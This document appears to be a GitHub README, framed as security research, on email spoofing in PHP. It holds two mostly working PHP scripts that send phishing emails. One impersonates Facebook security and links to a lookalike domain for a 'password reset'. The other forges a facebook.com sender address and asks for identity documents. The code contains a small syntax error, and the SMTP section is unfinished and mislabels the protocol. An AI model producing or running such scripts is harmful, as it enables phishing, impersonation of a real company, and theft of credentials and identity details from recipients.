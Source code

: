 # Email-Spoofing-PHP
Breakdown on security research into PHP Email Spoofing.
    

   
## Example 1   
```
<?php
$from = "reallookingemail@fbsecurity.com";
$to = "targetemail@gmail.com";
$display = "FB Security";
$subject = "Password Data Breach";
$message = '<h5>Data Breached</h5><p>Unfortunately we\'ve recently suffered a password database breach on our system, please change your password by following this link. <br><br>Please open this link in your browser or click on the link to automatically be taken to the address.<br><a href="fbsecurity.com/">Password Reset</a></p>';
$reply = "security@facebook.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}
```

> Example PHP Phishing - Using Email Sender Name and ReplyTo.
   
Results in an email from "FB Security" prompting to update password at a fake link.   
   
  
## Example 2   
> In this example we are changing the $from address to spoof a real email address - this is the old method that doesn't work because most provider's will block the fake email address by checking the domains mail (mx) records.
```   
<?php
$from = "support@facebook.com";
$to = "targetemail@gmail.com";

$display = "Facebook";
$subject = "Security Breach";
$message = '<h4>Facebook</h4><p>Unfortunately we\'ve recently suffered a secure database breach on our system, please confirm your identity by replying to this message and attaching 100 points of ID.<br>Security is very important to us at Facebook and we must ask people to now provide identification details to further ensure your safety on our network, we are sorry for this inconvenience. </p>';
$reply = "support@fbsecurity.com";

header('Content-type: text/plain;');
$ok = sendSpoofMail($to,$from,$display,$subject,$message,$reply);

echo $ok ? "Sending Passed":"Sending Failed";

function sendSpoofMail($to,$from, $display,$subject,$message,$reply)
{
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";

$headers .= 'From: '.$display.' <'.$from'>'."\r\n".
    'Reply-To: '.$reply."\r\n" .
    'X-Mailer: PHP/' . phpversion();

$msg  = '<html><body>';
$msg .= $message;
$msg .= '</body></html>';

  if(mail($to, $subject, $msg, $headers)){
             return true;
              } else{
             return false;
     }

}   
```
> Here the attacker has spoofed the From Email address and the Name of the email sender, asking for details. 
  
 
## Example 3 
> Here we look at SMTP Exploits, ( Short Message Transfer Protocol ). 
> This section is still being written.
 
   





.
